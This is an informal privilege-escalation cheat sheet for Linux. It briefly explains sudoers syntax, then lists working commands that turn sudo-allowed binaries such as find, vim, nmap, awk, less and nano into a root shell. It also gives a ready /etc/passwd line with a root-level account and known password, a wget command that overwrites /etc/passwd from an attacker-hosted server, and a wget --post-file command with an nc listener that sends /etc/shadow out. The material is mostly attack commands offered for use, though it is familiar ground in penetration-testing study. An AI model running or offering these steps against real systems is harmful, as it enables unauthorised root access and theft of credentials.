 ---- Credits to Touhid M.Shaikh ----


Sudoers File

  

SUDOers

  sudo -l
  
 
Sudoer File Syntax.

  root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

  user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

  user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.

Exploiting SUDO Users.
To Exploiting sudo user u need to find which command u have to allow.
sudo -l

The above command shows which command have allowed to the current user.


Here sudo -l, Shows the user has all this binary allowed to do as on root user without password.

Let’s take a look at all binary one by one (which is mention in index only) and Escalate Privilege to root user.

Using Find Command
sudo find /etc/passwd -exec /bin/sh \;
or

sudo find /bin -name nano -exec /bin/sh \;
Using Vim Command
sudo vim -c '!sh'
Using Nmap Command
Old way.

  sudo nmap --interactive
  nmap> !sh
  sh-4.1#
  Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
Using Man Command
sudo man man
after that press !sh and hit enter

Using Less/More Command
sudo less /etc/hosts
sudo more /etc/hosts
after that press !sh and hit enter

Using awk Command

 sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano  /etc/passwd
now switch user password is : test

su touhid
Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only =>  touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
host that passwd file to using any web server.
On Victim Side.

sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
now switch user password is : test

su touhid
Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

sudo wget --post-file=/etc/shadow 192.168.56.1:8080
Setup Listener on attacker : nc –lvp 8080

Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

sudo apache2 -f /etc/shadow
Output is like this :

Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.
